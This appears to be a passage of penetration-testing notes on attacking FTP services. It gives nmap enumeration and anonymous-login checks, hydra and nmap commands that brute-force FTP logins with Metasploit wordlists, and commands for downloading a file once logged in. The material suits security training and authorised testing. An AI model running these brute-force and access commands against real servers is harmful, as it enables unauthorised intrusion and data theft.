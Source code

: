 # ii - FTP - 20,21

`nmap $ip -Pn -p21 -sV -O` - basic enumeration.

`ftp $ip` - logging in to ftp.

### Ftp Anonymous Login

`nmap $ip -p21 --script ftp-anon` - check if anon login is allowed.

### Bruteforce FTP creds with \[hydra] utility

`hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P usr/share/metasploit-framework/data/wordlists/unix_passwords.txt $ip ftp` - performs a bruteforce for ftp.

```bash
# cmds to run after login success.
ls    # list directories.
get secret.txt    # download file.
```

### Bruteforce FTP creds with \[nmap] bruteforcer

`nmap $ip --script ftp-brute --script-args userdb=/root/users -p 21` - nmap brute force.

